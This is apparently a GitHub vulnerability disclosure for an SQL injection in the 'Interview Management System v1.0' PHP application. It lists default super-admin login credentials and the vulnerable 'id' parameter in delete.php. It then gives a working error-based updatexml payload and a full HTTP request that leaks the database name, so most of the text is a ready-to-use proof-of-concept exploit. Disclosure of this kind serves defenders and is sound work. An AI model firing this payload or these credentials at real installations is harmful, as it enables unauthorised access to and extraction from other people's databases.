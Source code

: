 # Interview Management System v1.0 by janobe has SQL injection

BUG_Author: Fright-Moch

Login account: janobe@janobe.com/janobe (Super Admin account)

vendors: https://www.sourcecodester.com/php/14585/interview-management-system-phpmysqli-full-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /interview/delete.php?action=questiondelete&id=

Vulnerability location: /interview/delete.php?action=questiondelete&id=, id

dbname =sourcecodester_interviewdb

[+] Payload: /interview/delete.php?action=questiondelete&id=(updatexml(1,concat(0x7e,(select%20database()),0x7e),0)) // Leak place ---> id

```sql
GET /interview/delete.php?action=questiondelete&id=(updatexml(1,concat(0x7e,(select%20database()),0x7e),0)) HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=fjhrjdpuej6edqv5haoadpj3lc
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183243861-4eca76f5-218e-42e6-aac0-dcc9b871a085.png)

